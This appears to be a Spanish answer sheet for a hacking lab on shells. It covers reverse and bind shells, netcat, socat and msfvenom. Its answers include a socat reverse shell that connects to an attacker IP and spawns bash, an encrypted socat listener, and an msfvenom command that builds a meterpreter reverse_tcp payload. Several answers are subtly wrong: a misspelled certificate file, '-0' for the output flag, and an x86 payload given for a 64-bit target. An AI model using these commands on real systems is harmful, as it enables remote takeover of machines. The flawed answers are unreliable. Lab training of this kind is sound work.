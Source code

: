 ## ¿Qué es una shell?

¿Qué tipo de shell se conecta de nuevo a un puerto de escucha en su computadora, Reverse (R) o Bind (B)?
 
    R

Ha inyectado código de shell malicioso en un sitio web. ¿Es probable que el caparazón que recibe sea interactivo? (S o N)
 
    N

Al usar un shell de enlace, ¿ejecutaría un oyente en el atacante (A) o el objetivo (T)?
 
    T

## Netcat

¿Qué opción le dice a netcat que escuche ?
 
    -l

¿Cómo se conectaría a un shell de enlace en la dirección IP: 10.10.10.11 con el puerto 8080?

    nc 10.10.10.11 8080

## Netcat Shell Stabilisation
¿Cómo cambiaría el tamaño de su terminal para tener 238 columnas?
 
    stty cols 238

¿Cuál es la sintaxis para configurar un servidor web Python3 en el puerto 80?
 
    sudo python3 -m http.server 80

## Socat

¿Cómo conseguiremos que socat escuche en el puerto TCP 8080?

    TCP-L:8080

## Socat Encrypted Shells 

¿Cuál es la sintaxis para configurar un OPENSSL-LISTENER usando la técnica tty de la tarea anterior? Utilice el puerto 
53 y un archivo PEM llamado "encrypt.pem"
 
    socat OPENSSL-LISTENER:53,cert=emcrypt.pem,verify=0 FILE:`tty`,raw,echo=0

Si su IP es 10.10.10.5, ¿qué sintaxis usaría para conectarse de nuevo a este oyente?

    socat TCP:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane

## Common Shell Payloads  

¿Qué comando se puede usar para crear una tubería con nombre en Linux?

    mkfifo

## Msfvenom

¿Qué símbolo se usa para mostrar que un caparazón no tiene escenario?
 
    _

¿Qué comando usaría para generar un shell inverso meterpreter por etapas para un destino Linux de 64 bits , asumiendo que su propia IP era 10.10.10.5 y estaba escuchando en el puerto 443? El formato del shell eself y el nombre del archivo de salida debe sershell

    msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -0 shell LHOST=10.10.10.5 LPORT=443


